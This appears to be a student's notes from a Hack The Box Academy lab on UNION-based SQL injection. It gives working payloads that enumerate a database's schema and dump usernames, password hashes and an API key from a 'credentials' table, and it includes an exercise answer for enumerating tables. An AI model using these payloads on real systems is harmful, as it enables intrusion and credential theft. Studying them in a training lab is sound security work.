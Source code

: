 ```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/ports_columns_1.jpg)

The table has two columns namedÂ `username`Â andÂ `password`. We can use this information and dump data from the table.

---

## Data

Now that we have all the information, we can form ourÂ `UNION`Â query to dump data of theÂ `username`Â andÂ `password`Â columns from theÂ `credentials`Â table in theÂ `dev`Â database. We can placeÂ `username`Â andÂ `password`Â in place of columns 2 and 3:

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

Remember: don't forget to use the dot operator to refer to the 'credentials' in the 'dev' database, as we are running in the '`ilfreight`' database, as previously discussed.

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/ports_credentials_1.png)

We were able to get all the entries in theÂ `credentials`Â table, which contains sensitive information such as password hashes and an API key.


# Question
---
![Pasted image 20250203140153.png](../../../../IMAGES/Pasted%20image%2020250203140153.png)

We can use the following to enumerate the tables from the `ilfreight` database:

```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
```

We can see the following:


![Pasted image 20250203140227.png](../../../../IMAGES/Pasted%20image%2020250203140227.png)
